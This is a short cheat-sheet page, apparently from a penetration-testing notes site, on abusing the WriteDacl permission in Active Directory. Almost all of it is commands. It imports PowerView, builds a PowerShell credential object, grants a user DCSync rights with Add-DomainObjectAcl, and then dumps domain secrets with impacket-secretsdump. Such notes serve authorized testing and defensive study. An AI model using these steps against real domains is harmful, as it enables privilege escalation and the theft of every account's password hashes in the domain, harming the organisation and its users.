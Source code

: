 ```yaml
---
title: "WriteDacl"
date: 2024-7-12
tags: ["Writedacl", "Dcsync", "Powerview", "Credential Dumping", "Active Driectory", "Windows"]
---
```


### Abuse #1: Add dcsync right to user

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add dcsync right

```console
Add-DomainObjectAcl -PrincipalIdentity <USER> -TargetIdentity '<DOMAIN>\<TARGET_GROUP>' -Rights DCSync -Credential $cred
```

{{< /tabcontent >}}

### 4. Secrets dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

{{< /tabcontent >}}
